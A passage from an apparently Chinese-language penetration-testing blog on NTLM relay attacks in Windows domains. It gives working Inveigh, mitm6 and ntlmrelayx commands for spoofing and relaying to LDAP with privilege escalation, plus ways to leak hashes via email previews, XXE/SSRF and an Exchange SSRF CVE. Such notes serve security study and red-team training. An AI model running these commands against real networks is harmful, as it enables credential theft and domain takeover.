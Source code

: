 https://www.bettercap.org/installation/

https://github.com/dirkjanm/mitm6

这里我使用物理机演示。

```bash
Inveigh.exe -spooferip 192.168.52.129
```

![image.png](https://cdn.jsdelivr.net/gh/songzhiv/image//blog/image-20220217205227-0dfqqn1.png)

```bash
sudo python3 mitm6/mitm6.py  -d adc.com --interface eth0

python3 ntlmrelayx.py -t ldap://10.10.10.10 -debug --remove-mic --delegate-access --escalate-user testpc\$ -wh wpad -6
```

![image.png](https://cdn.jsdelivr.net/gh/songzhiv/image//blog/image-20220222210350-y9piovo.png)

#### 邮件钓鱼

outlook与foxmail 图片预览功能支持HTTP和UNC路径，可触发SMB和http类型认证。

获取HTTP需要在可信域，需要添加一条DNS记录。

![image.png](https://cdn.jsdelivr.net/gh/songzhiv/image//blog/image-20220219124509-c70vna4.png)

![image.png](https://cdn.jsdelivr.net/gh/songzhiv/image//blog/image-20220219124644-68e0j3a.png)


#### XXE与SSRF

https://daiker.gitbook.io/windows-protocol/ntlm-pian/5#0x0a-xxe-and-and-ssrf

> 各个语言触发XXE和SSRF的实现不同。同一门语言也有不同的触发方式，
>
> 只要支持UNC路径都能打回net-ntlm hash,如果支持http的话，得看底层实现，有些底层实现是需要判断是否在信任域的，有些底层实现是不需要判断是否信任域，有些需要判断是否信任域里面。
>
> 在xxe和ssrf测试中一般要测试这两个方面
>
> 1. 支不支持UNC路径，比如`\\ip\x`或者`file://ip/x`
> 2. 支不支持HTTP(这个一般支持),是不是需要信任域，信任域是怎么判断的
>

#### Exchange SSRF

https://daiker.gitbook.io/windows-protocol/ntlm-pian/7#4.-cve-2018-8581


## 域内机器的签名情况

我们可以在 **Windows管理工具-本地安全策略-本地策略-安全选项** 中查看

### LDAP
